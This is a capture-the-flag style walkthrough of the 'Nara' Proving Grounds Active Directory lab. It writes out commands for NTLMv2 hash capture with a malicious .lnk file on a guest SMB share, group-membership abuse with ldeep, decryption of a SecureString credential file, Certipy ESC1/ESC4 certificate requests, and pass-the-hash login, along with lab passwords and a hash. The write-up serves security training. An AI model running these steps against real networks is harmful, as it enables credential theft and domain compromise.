# Nara -- Proving Grounds (write-up)

**Difficulty:** Hard
**Box:** Nara (Proving Grounds)
**Author:** dsec
**Date:** 2025-11-27

---

## TL;DR

### AD box. Guest SMB access led to hashgrab via malicious .lnk file. Cracked Tracy.White's NTLMv2 hash, used ldeep to add her to Remote Access group. Found encrypted cred file, decrypted for Jodie.Summers. Certipy found ESC1/ESC4 but the box appeared broken during exploitation.
---
## Target info

- Host: `192.168.190.30`
- Domain: `nara-security.com` / `NARASEC`
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.190.30 -sCV -p- --open -vvv
```













Used nxc to enumerate users:





Found users including Tracy.White, Jodie.Summers, Damian.Johnson, Helen.Robinson, and others.





Tried usernames as passwords and lowercase variants -- nothing worked.

---
## Initial foothold -- hashgrab

Created a malicious .lnk file with hashgrab:

```bash
python3 hashgrab.py 192.168.45.208 test
```



Started an SMB listener:

```bash
smbserver.py smb share/ -smb2support
```

Connected as guest and uploaded `test.lnk` to the Nara share `/Documents`:

```bash
smbclient.py narasec/guest:''@192.168.195.30
```



Captured Tracy.White's NTLMv2 hash:



Cracked it:



Creds: `tracy.white:zqwj041FGX`

---
## Lateral movement

Used ldeep to add Tracy.White to the Remote Access group:

```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"
```



Got a shell:



Found an encrypted credential file. Decrypted it with PowerShell:

```powershell
$pw = Get-Content cred.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
```

Password: `hHO_S9gff7ehXw`





Creds: `jodie.summers:hHO_S9gff7ehXw`

Evil-winrm showed same privileges on the same machine.

---
## AD enumeration

Ran dnschef + bloodhound-python:





Both users showed DCSync attack paths but the details were vague.

---
## Privesc attempt -- Certipy (ESC1/ESC4)

```bash
certipy find -dc-ip 192.168.195.30 -ns 192.168.195.30 -u jodie.summers@nara-security.com -p 'hHO_S9gff7ehXw'
```





Found ESC1 and ESC4 vulnerabilities on the NARAUSER template.

#### **Box appeared broken during exploitation.** Checked every walkthrough available and even copy-pasted from the official walkthrough. The certipy request kept failing.

```bash
certipy-ad req -username JODIE.SUMMERS -password 'hHO_S9gff7ehXw' -target nara-security.com -ca NARA-CA -template NARAUSER -upn administrator@nara-security.com -dc-ip 172.16.201.26 -debug
```



After rebooting the box and VM, got the same error as a video walkthrough (where the author had to re-run multiple times until it worked).

Expected result:



Final commands (when working):

```bash
certipy auth -pfx administrator.pfx -domain nara-security.com -username administrator -dc-ip 172.16.201.26
evil-winrm -u administrator -i nara-security.com -H d35c4ae45bdd10a4e28ff529a2155745
```

---
## Lessons & takeaways

- Malicious .lnk files via hashgrab are effective for capturing NTLMv2 hashes from file shares
- PowerShell `ConvertTo-SecureString` creds can be reversed if you have access to the same machine/user context
- ESC1/ESC4 certificate abuse is powerful but can be finicky -- sometimes boxes need resets
---
